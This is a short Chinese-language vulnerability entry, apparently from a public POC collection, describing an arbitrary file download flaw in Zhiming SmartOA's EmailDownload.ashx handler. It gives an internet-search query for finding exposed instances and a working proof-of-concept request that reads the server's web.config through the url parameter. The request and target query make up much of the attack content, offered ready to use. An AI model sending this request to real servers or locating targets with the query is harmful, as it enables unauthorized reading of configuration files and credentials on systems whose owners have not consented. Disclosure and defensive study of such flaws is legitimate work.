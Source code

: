 # 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

## 漏洞描述

智明 SmartOA EmailDownload.ashx文件存在任意文件下载漏洞，通过漏洞可下载服务器上的敏感文件，查看敏感信息

## 漏洞影响

<a-checkbox checked>智明 SmartOA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="智明协同-SmartOA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1631326538226-96c43380-0494-47e1-899c-7e115530b1bb.png)

验证POC

```python
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![img](../../../.vuepress/public/img/1631326793699-a63d3321-beee-4241-9369-2e3ccb9ac39f.png)